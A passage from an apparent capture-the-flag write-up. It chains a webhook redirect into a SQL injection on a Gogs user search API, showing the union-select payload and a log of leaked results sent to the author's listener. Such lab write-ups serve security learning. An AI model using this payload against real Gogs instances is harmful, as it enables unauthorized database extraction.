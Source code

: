 If I try to replace `3` with `version()`, it fails. That implies the DB
may not be MySQL. SQLite uses `sqlite_version()`, and putting that in
works:



    10.10.11.176 - - [06/Jan/2023 22:09:04] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3.8.5","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '170', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:09:04 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:09:04] "POST /hook HTTP/1.1" 200 -



It's running SQLite version 3.8.5.

#### Run Gogs Locally

To get this to work, I'll need to get Gogs running locally. I'll
download this version form the [release
page](https://github.com/gogs/gogs/releases/tag/v0.5.5). It's a zip with
a compiled binary in it. I'll run `./gogs web`, and it starts the web
server.

Visiting `127.0.0.1:3000` presents the install page:

![](/img/image-20230106171650744.png)
